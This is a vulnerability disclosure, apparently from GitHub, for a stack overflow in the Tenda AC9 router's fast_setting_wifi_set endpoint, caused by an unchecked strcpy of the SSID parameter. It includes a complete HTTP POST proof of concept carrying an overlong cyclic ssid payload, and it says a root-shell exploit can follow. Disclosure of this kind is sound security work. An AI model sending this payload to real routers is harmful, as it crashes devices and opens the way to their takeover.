



# Tenda AC9 router has a stack overflow vulnerability

### Firmware address

Tenda official website：https://www.tenda.com.cn/default.html

About Tenda：https://www.tenda.com.cn/profile/contact.html

Firmware Download：https://www.tenda.com.cn/download/

### Impact version



The latest version is shown in the figure

### Vulnerability details




The program passes the content obtained by SSID parameter to SRC, and then copies SRC into S's stack through strcpy function. There is no size check, so there is a stack overflow vulnerability.

### Vulnerability recurrence and POC

To reproduce the vulnerability, follow these steps：

​	1.Use fat to simulate firmware V15 03.2.21_ cn

​	2.Attack with the following POC attacks

```
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1131
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/parental_control.html?random=0.16095210121969683&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcetv1qw

ssid=9c%3Afc%3Ae8%3A1a%3A33%3A80aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae
```



The picture shows the effect of POC attack

Finally, you can write exp, which can achieve a very stable effect of getting the root shell

